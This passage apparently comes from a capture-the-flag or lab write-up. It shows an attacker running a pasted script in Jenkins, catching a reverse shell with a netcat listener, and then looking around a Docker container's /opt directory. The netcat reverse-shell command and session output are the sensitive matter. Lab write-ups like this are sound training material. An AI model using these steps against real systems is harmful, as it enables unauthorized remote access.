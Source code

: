 ![internal-script](/assets/images/2021-03-04-22-29-04.png)

Now we just paste our script and run it:

![internal-run](/assets/images/2021-03-04-22-41-37.png)

And we get our reverse shell:

```text
kali@kali:~$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.178.17] 50164
/bin/bash -i
jenkins@jenkins:/$ id  
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
```

We are inside docker, so not all commands work. I just had a look around and found an interesting file in the /opt as before:

```text
jenkins@jenkins:/$ ls -lsa /opt
ls -lsa /opt
total 12
4 drwxr-xr-x 1 root root 4096 Aug  3  2020 .
4 drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
4 -rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
```
